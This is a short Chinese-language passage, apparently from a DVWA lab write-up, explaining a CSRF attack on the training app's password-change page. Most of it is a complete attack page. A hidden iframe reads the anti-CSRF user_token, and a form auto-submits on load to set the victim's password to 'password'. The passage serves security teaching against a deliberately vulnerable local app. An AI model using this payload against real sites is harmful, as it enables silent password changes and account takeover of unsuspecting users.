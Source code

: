 试着去构造一个攻击页面，将其放置在攻击者的服务器，引诱受害者访问，从而完成CSRF攻击，下面是代码。
```
<html>
<script type="text/javascript">

    function attack()

  {

   document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;

  document.getElementById("transfer").submit(); 

  }

</script>

 

<iframe src="http://127.0.0.1/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">

</iframe>

 

<body onload="attack()">

  <form method="GET" id="transfer" action="http://127.0.0.1/dvwa/vulnerabilities/csrf">

   <input type="hidden" name="password_new" value="password">

    <input type="hidden" name="password_conf" value="password">

   <input type="hidden" name="user_token" value="">

  <input type="hidden" name="Change" value="Change">

   </form>

</body>
</html>
```
攻击思路是当受害者点击进入这个页面，脚本会通过一个看不见框架偷偷访问修改密码的页面，获取页面中的token，并向服务器发送改密请求，以完成CSRF攻击。如下图x